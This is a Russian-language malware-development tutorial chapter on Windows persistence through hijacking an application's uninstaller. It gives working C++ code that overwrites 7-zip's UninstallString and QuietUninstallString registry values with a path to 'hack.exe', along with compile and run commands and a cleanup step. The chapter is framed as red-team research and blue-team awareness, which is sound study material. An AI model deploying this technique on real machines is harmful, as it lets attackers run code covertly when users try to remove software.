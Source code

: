 \newpage
\subsection{79. разработка вредоносного ПО: закрепление (persistence) - часть 13. Захват логики удаления приложения. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через захват файла удаления целевого приложения.     

### процесс удаления

Когда вы устанавливаете программу в системе Windows, она обычно указывает на свой собственный деинсталлятор. Они находятся в следующих ключах реестра:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<имя приложения>`    

и  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<имя приложения>`     

Так в чем же трюк? Нет никаких проблем с их заменой на команды, которые могут запустить любую другую программу. Когда пользователь выполняет деинсталлятор, выполняется команда, выбранная атакующим. Опять же, хорошая новость заключается в том, что для изменения этих элементов требуются привилегии, так как они находятся под ключом `HKLM`.     

### практический пример

Рассмотрим практический пример. Во-первых, выберем целевое приложение. Я выбрал `7-zip x64`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Затем проверим значения ключей реестра на корректность:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Также я подготовил свое вредоносное приложение. Как обычно, это `meow-meow` "вредоносное ПО" :)    

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Затем я создаю программу, которая выполняет мою логику для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста, мы просто обновляем целевые значения ключей в реестре.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем вредоносное ПО и скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

И запускаем на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Наконец, после перезагрузки системы попробовал удалить `7-zip`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

Как можно видеть, родительский процесс - `SystemSettings.exe`, который появляется при открытии настроек Windows. В нашем случае это "Добавление/Удаление программ". Идеально! =^..^=    

Есть небольшая загвоздка. Когда я попытался обновить ключ с путем `Z:\2022-10-04-malware-pers-13\hack.exe`, я получил ошибку:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Возможно, можно использовать только пути внутри диска `C:\`.    

После завершения экспериментов очистка:    

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" \
/v "UninstallString" /t REG_SZ /d "C:\\Program Files\\7-zip\\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### заключение

Конечно, возможно, этот трюк не так хорош для закрепления, так как он требует разрешений и участия пользователя-жертвы. Но почему бы и нет?    

Есть еще один трюк, связанный с установкой и удалением программ для закрепления, о нем я напишу в одном из будущих постов. Я все еще исследую эту возможность для red team.    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
